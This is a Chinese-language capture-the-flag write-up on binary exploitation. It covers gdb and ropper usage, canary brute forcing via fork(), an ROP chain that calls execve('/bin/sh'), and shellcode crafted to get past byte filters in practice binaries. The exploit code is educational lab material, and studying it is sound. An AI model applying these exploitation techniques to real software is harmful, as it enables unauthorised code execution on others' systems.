







# Write-up CTF 11/2023, Category: Pwn


## objdump commands
### objdump -h `<`executable`>`
查看執行檔的 section headers
- `Size` - section 的大小
- `VMA` - section _**預定**_ 映射 (mapping) 在記憶體中的虛擬地址 (virtual memory address)


## gdb commands
[gef –– GDB Enhanced Features 安裝教學](https://hugsy.github.io/gef/install/)


### x/`<`length/format/unit`>` `<`addr`>`
`x`: 檢查記憶體中的內容。x 是 examine 的縮寫\
length, format, unit 是可選的參數
#### length —— 顯示的單位數量
#### format —— 顯示格式
- `x` - hexadecimal (十六進制)
- `d` - decimal (十進制)
- `u` - unsigned decimal (無符號十進制)
- `o` - octal (八進制)
- `t` - binary (二進制)
- `a` - addr (地址)
- `i` - instruction (機器指令)
- `c` - char (字符)
- `s` - string (字串)
#### unit —— 顯示單位
- `b` - byte (8-bits)
- `h` - halfword (16-bits)
- `w` - word (32-bits)
- `g` - giant word (64-bits)

### checksec
檢查執行檔的安全性，是否開啟了 NX, PIE, RELRO, Canary 等等的保護機制。

### info proc mappings & vmmap
查看執行檔中，sections _**最終實際**_ 映射 (mapping) 在記憶體中的虛擬地址 (virtual memory address)
- `r` - 可讀
- `w` - 可寫
- `x` - 可執行
- `p` - 私有


## ropper commands
[Ropper 安裝教學](https://shantoroy.com/security/using-ropper-to-find-address-of-gadgets/)

### source venv/bin/activate; ropper
啟動 Ropper 交互式介面

### file `<`executable`>`
讀入 ELF 執行檔

### search `<`instruction`>`
尋找 ROP gadgets

_Example:_\


## Challenges

### 03_Iamyourfather
#### Methods
* fork() –– Multi-Process
* Canary brute forcing
* ROP gadgets
* ASLR

#### Solving Process
先用 `checksec` 檢查執行檔的安全屬性：
```
gef➤  checksec
[+] checksec for '/home/citrusalessia/CaptureTheFlag/03_Iamyourfather/father'
Canary                        : ✓ (value: 0x11301209b18da000)
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

上面的這些安全屬性分別代表什麼意思呢？

_**`Canary`**_:\
在20世紀早期，礦工在進入煤礦之前會帶一隻活金絲雀\
由於金絲雀對有害氣體（如一氧化碳）非常敏感，它們會在人類感覺不到危險之前受到影響，從而提供一種早期警告系統\
如果金絲雀出現問題，礦工就知道環境可能不安全，需要撤離

在計算機安全中，`Canary` 是一種類似的防護機制\
它是一個放在重要數據（如返回地址）之前的小數據片段，如果攻擊者嘗試覆蓋或改變這個區域的記憶體，Canary 值會被改變，從而警示系統可能發生安全漏洞

譬如說，在這裡 `Canary` 用於在 epilogue 前時候檢查當前函數的 stack frame 有沒有被緩衝區溢出攻擊 (BOA) 的可能性

_**`NX`**_:\
`NX` 是 `No eXecute` 的縮寫，是一種硬體技術，用於防止攻擊者在執行程式時，將記憶體區段當作指令執行，從而防止攻擊者執行 shellcode
\
\
\
\
\
這裡我們可以看到， `Canary` 的數值被放在 `rbp-0x8` 的位置：


這裡我們可以看到， Compiler 在編譯時，會在 epilogue 前加入一段程式碼，用於檢查 `Canary` 的數值有沒有被改變：

\
\
\
\
\
要破解 `Canary`，我們需要先知道 `Canary` 的數值是多少，常見的方法有：
1. 透過 `print()` 印出 `Canary` 的數值
2. 透過 `fork()` 暴力破解 (brute force) `Canary` 的數值

用 IDA 反編譯，可以看到程式碼中有 `fork()` 的存在：


所以，這題可以使用第二種方法，關於 `fork()` 的用法可以參考 [fork() in C](https://www.geeksforgeeks.org/fork-system-call/)\
關於 `brute force` 的用法可以參考 [Canary Brute-Forcing](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie)

簡單來說，利用 `fork()` 給予我們的無限次猜 `Canary` 的機會，一個一個 byte 慢慢猜，如果猜錯程式就會觸發 `__stack_chk_fail()` 這個函數，如果猜對就不會觸發，直到猜出所有 byte 為止
\
\
\
\
\
解決了 `Canary` 之後，下個問題就是如何在 `.stack segment` 不可執行的情況下，成功呼叫 `execve("/bin/sh", NULL, NULL)` 了\
這裡我們可以利用 ROP (Return Oriented Programming) 的技巧，來達成這個目的

使用 `ropper` 來湊出可以成功實行 `execve("/bin/sh", NULL, NULL)` 的 `ROP gadgets`，下方是最後要注入到 `.stack segment` 中的 `ROP chain`：
```python
rop_chain = b"" 
rop_chain += p64(0x000000000044c2a6) # -> pop rdx; ret;
rop_chain += p64(0x68732f2f6e69622f) # var:("/bin//sh")
rop_chain += p64(0x00000000004006c6) # -> pop rdi; ret;
rop_chain += p64(0x00000000006d2000) # var:(.data segment)
rop_chain += p64(0x0000000000435693) # -> mov qword ptr [rdi], rdx; ret;
rop_chain += p64(0x0000000000410893) # -> pop rsi; ret;
rop_chain += p64(0x0000000000000000) # var:(0)
rop_chain += p64(0x000000000044c2a6) # -> pop rdx; ret;
rop_chain += p64(0x0000000000000000) # var:(0)
rop_chain += p64(0x00000000004005cf) # -> pop rax; ret;
rop_chain += p64(0x000000000000003b) # var:(59)
rop_chain += p64(0x00000000004013ec) # -> syscall;
```

值得注意的是，我將 `"/bin//sh"` 的字串寫入到 `.data segment` 中，而不是 `.stack segment` 中

測試時發現 `.stack segment` 的記憶體位址會隨著每次執行程式而改變，而 `.data segment` 的記憶體位址則不會改變

題目解開來事後確認一下 `ASLR` 是否有開啟，可以看到為模式 2 ，表示完全隨機化，所以 stack, heap, library 的位置都會被隨機化：



<br/><br/><br/>

### 04_wakuwaku
#### Methods
* PLT –– Procedure Linkage Table
* GOT –– Global Offset Table

<br/><br/><br/>

### 05_shellcode
#### Methods
* Shellcode basic

#### Solving Process
題目有給 C code，先打開來看看：
```c
#include <stdlib.h>
#include <stdio.h>

void init() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
	return;
}

int main() {
	init();
	char buf[200];

	puts("Input something in this buffer!!!");
	read(0, buf, 200);

	void (*func)() = (void (*)())buf;
	(*func)();

	return 0;
}
```
首先要了解 function pointer 的概念，可以參考 [C 語言中的函數指標](https://openhome.cc/Gossip/CGossip/FunctionPointer.html)。
\
\
\
\
\
為了更深刻得意會到這段程式碼在做什麼，使用 `objdump -d <executable>` 反組譯執行檔的 .text 區段，擷取出對應 C code 中的這兩行的組合語言：
```c
void (*func)() = (void (*)())buf;
(*func)();
```
```assembly
  401221:	48 8d 85 30 ff ff ff 	lea    rax,[rbp-0xd0]
  401228:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
  40122c:	48 8b 55 f8          	mov    rdx,QWORD PTR [rbp-0x8]
  401230:	b8 00 00 00 00       	mov    eax,0x0
  401235:	ff d2                	call   rdx
```
來解析一下這段組合語言在做什麼：

第1, 2行在把 `buf` 的值 寫入 `func` 的位址`[rbp-0x8]`\
第3~5行要呼叫 `func`\
明顯就是要讓 rip 跳到 stack segment 執行 `buf` 的內容 (shellcode)
\
\
\
\
\
用 `checksec` 檢查執行檔的安全屬性，可以看到 NX 沒開：
```terminal
[+] checksec for '/home/citrusalessia/CaptureTheFlag/05_shellcode/shellcode'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

所以接下來只要將 sys_execve 的 shellcode 寫入 `buf`，就可以成功了，
shellcode 可以參考 [shell-storm](http://shell-storm.org/shellcode/)，這裡使用的是 [Linux/x86 - execve(/bin/sh) Shellcode (21 bytes)](http://shell-storm.org/shellcode/files/shellcode-827.php)

<br/><br/><br/>

### 06_shellcode2
#### Methods
* Shellcode basic
* Shellcode crafting
* jmp instruction
* `read` syscall

#### Solving Process
題目有給 C code，先打開來看看：

```c
#include <stdlib.h>
#include <stdio.h>

void init() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
	return;
}

int main() {
	init();
	char buf[200];

	puts("Input something in this buffer!!!");
	puts("However,you can't input 'nop' such as '0x90' this time!!!");
	puts("And also,you need to bypass some restrictions in your shellcode!!!");
	read(0, buf, 200);

	for (int i = 0; i < 200; i++) {
		if (buf[i] == '\x90') {
			puts("You can't input '0x90' this time!  :(( ");
			exit(0);
		}
	}

	for (int i = 0; i < 10; i++) {
		if (buf[i*20] != '\x0c' && buf[(i*20)+1] != '\x87' && buf[(i*20)+2] != '\x63') {
			puts("Try to bypass the restriction!!!");
			puts("Try again!!!");
			exit(0);
		}
	}

	void (*func)() = (void (*)())buf;
	(*func)();

	return 0;
}
```
可以看到這次的限制有兩個：
1. 不能輸入 `nop` (0x90)
2. 每 20 bytes 會檢查前三個 bytes 是否為 `0x0c 0x87 0x63`（好中二XD）

因此，能否用第一組 `0x0c 0x87 0x63` 為開頭湊出有效的指令集，並且使用 `jmp` 指令跳過剩下的 `0x0c 0x87 0x63`，就是解出這題的關鍵
\
\
\
\
\
利用 python 的 `pwntools` 來幫助我們湊出 shellcode：
```python
from pwn import *
context.update(arch='amd64', os='linux')
for i in range(0x100):
    print(disasm(b"\x0c\x87\x63" + bytes([i])))
    print()
```

`0x0c 0x87 0x63 0x56` 這對指令集好像不錯，只有影響到 `al` 和 `rsp`：
```assembly
   0:   0c 87                   or     al, 0x87
   2:   63                      .byte 0x63
   3:   56                      push   rsi
```

再用 `objdump -b binary -m i386:86-64 -M intel -D <executable>` 確認一次，和 `pwntools` 反組譯的結果一樣：

\
\
\
\
\
然而，實際用 gdb 動態追縱時，發現指令並不是先前預想的那樣：


研究了一下為何會發生這種狀況，發現是因為電腦會將 `0x0c 0x87 0x63 0x56` 和緊跟在後的 `0x48` 解讀為第ㄧ、二行指令，順帶也影響到接續的指令：
```assembly
0c 87                	or     al, 0x87
63 56 48                movsxd edx, DWORD PTR [rsi+0x48]
31 f6                	xor    esi, esi                  ; <-- 預想是：48 31 f6                xor    rsi, rsi
```

因此，在湊好合適的指令集後，也需要留意有沒有上面的這種情況發生，以免影響到 shellcode 的執行\
幸好在本次的形況下無傷大雅，不過還是先改成 `0x0c 0x87 0x63 0xd0` 這一組指令集
\
\
\
\
\
此外，可以注意到 ```movsxd edx, DWORD PTR [rsi+0x48]``` 這行指令好像語法上有點怪怪的，\
其實 `MOVSXD r32, r/m32` 這語法是合法的，只是不鼓勵使用

\
\
\
\
\
為了順利執行 shellcode，我們需要找到一個合適的 `jmp` 指令來跳過剩餘的 `0x0c 0x87 0x63`，\
考慮到這題的限制，即每 17 bytes 必須形成一組有效的指令集，我們需要選擇一個盡可能少佔用字節的 `jmp` 指令，\
因此我選擇了 `short jump` 作為執行此操作的指令

下面是使用了 `short jump` 的ㄧ小段 shellcode：
```bash
# 0 ~ 3rd bytes
head="\x0c\x87\x63\xd0"
: << Instruction
0c 87                   or    al, 0x87
63 d0                   movsxd edx, eax
Instruction

# 4 ~ 19th bytes
shellcode_sys_exeve_part1="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\xeb\x04"
: << Instruction
48 31 f6                xor    rsi, rsi
56                      push   rsi
48 bf 2f 62 69 6e 2f    movabs rdi, 0x68732f2f6e69622f  # encoded from "/bin//sh"
2f 73 68
eb 04                   jmp short +0x4  # (jmp short 0x4), jump to buf[24]
Instruction
```

<br/><br/><br/>

### 07_shellcode3
#### Methods
* Shellcode basic
* Shellcode crafting
* NOPs
* `read` syscall

#### Solving Process
題目有給 C code，先打開來看看：

```c
#include <stdlib.h>
#include <stdio.h>

void init() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
	return;
}

int main() {
	init();
	char buf[150];

	puts("Input something in this buffer!!!");
	puts("However,you can't input 'nop' such as '0x90' this time!!!");
	puts("And also,you need to bypass some restrictions in your shellcode!!!");
	puts("This time the restrictions are very strict OAO!??");
	
	read(0, buf, 150);

	for (int i = 0; i < 150; i++) {
		if (buf[i] == '\x90') {
			puts("You can't input '0x90' this time!  :(( ");
			exit(0);
		}
	}

	for (int i = 0; i < 25; i++) {
		if (buf[i*6] != '\x0c' && buf[(i*6)+1] != '\x87' && buf[(i*6)+2] != '\x63') {
			puts("Try to bypass the restriction!!!");
			puts("Try again!!!");
			exit(0);
		}
	}

	void (*func)() = (void (*)())buf;
	(*func)();

	return 0;
}
```

這題的限制和上一題很像，只是變成每 6 bytes 就會檢查前三個 bytes 是否為 `0x0c 0x87 0x63`，完全無法使用上ㄧ題的方法

由於每 6 bytes 就被打斷一次，根本無法直接湊出 `execve("/bin/sh", NULL, NULL)` 的 shellcode\
不過，由於我們已經控制了程序的執行流程（rip），因此仍有解決方案
\
\
\
\
\
為了成功繞過本題的限制，我們需要在以每 6 bytes 為一個單位的情況下，設法湊出一段可以執行 `read(0, ..., ...)` 的 shellcode

為了成功執行 `sys_read` 的系統呼叫，我們需要設定特定的寄存器以符合要求，具體的設定如下：\
`rax` - syscall number, 數值需為 0 以代表 `sys_read`，其需要的參數分別有：

`rdi` - 表檔案描述符 (file descriptor), 數值需為 0，表標準輸入 (stdin)\
`rsi` - 表指向用於讀取資料的緩衝區指針 (*buffer), 數值需指向可寫、可執行的記憶體空間\
`rdx` - 表要讀取到緩衝區的位元數 (count), 數值不要太小或太大即可
\
\
\
\
\
`rsi` 已經指向了 `buf[0]`，所以只要把 `rdi`, `rdx` 和 `rax` 設定好就可以了

下面是呼叫 `sys_read` 的ㄧ小段 shellcode：
```bash
shellcode_sys_read_part1="\x0c\x87\x63\xd0\x89\xdb"
: << Instruction
0c 87                   or     al, 0x87
63 d0                   movsxd edx, eax  # assign buffer size, by the way this line can be executed, but it can't be assembled by nasm.
89 db                   mov    ebx, ebx  # do nothing, regarded as 2 bytes nop
Instruction

shellcode_sys_read_part2="\x0c\x87\x63\xc3\x0f\x05"
: << Instruction
0c 87                   or     al, 0x87
63 c3                   movsxd eax, ebx  # rax clear, by the way this line can be executed, but it can't be assembled by nasm.
0f 05                   syscall
Instruction
```

Q: 為何要呼叫 `sys_read` 呢？\
A: 因為可以藉由呼叫 `sys_read` 來重新注入新的 shellcode 到 `buf[]` 的記憶體空間

Q: 為何要重新注入新的 shellcode 到 `buf[]` 的記憶體空間呢？\
A: 重新注入的此時，程式已經完成了對 `buf[]` 內容的位元檢查，所以重新注入的 shellcode 將不再受到位元限制
\
\
\
\
\
接下來，只要再重新注入一段可以執行 `execve("/bin/sh", NULL, NULL)` 的 shellcode，就大功告成了


